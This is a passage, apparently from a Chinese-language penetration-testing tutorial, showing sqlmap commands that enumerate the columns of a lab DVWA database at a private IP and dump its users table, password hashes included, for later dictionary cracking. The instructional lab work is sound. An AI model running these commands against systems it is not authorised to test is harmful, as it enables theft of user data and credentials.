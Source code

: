 图 9：确定软件版本

现在我们已经获得了与 DVWA 相关的信息，让我们进一步进行一些额外的攻击。

# 从 SQL 表中转储用户详细信息

我们将执行的下一个攻击是从 SQL 数据库中获取用户信息。为此，我们将针对`dvwa`数据库。让我们开始吧：

1.  使用以下命令获取 DB 中的当前表：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --columns
```

在这个命令中，我们正在寻找与`dvwa`数据库（`-D dvwa`）相关的列（`--columns`）。请注意，在输出中，我们有一个有趣的表，列出为`users`，列如`firstname`，`lastname`，`userid`和`password`：

![](img/23bb7147-1dae-41e9-a9db-24fae21e5e17.png)

图 10：`dvwa`数据库中用户表的列

现在我们已经确定了一个有趣的表，让我们继续转储表，看看我们是否能够使用字典攻击破解哈希。

1.  通过以下命令，我们将转储所有表的表条目：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --dump
```
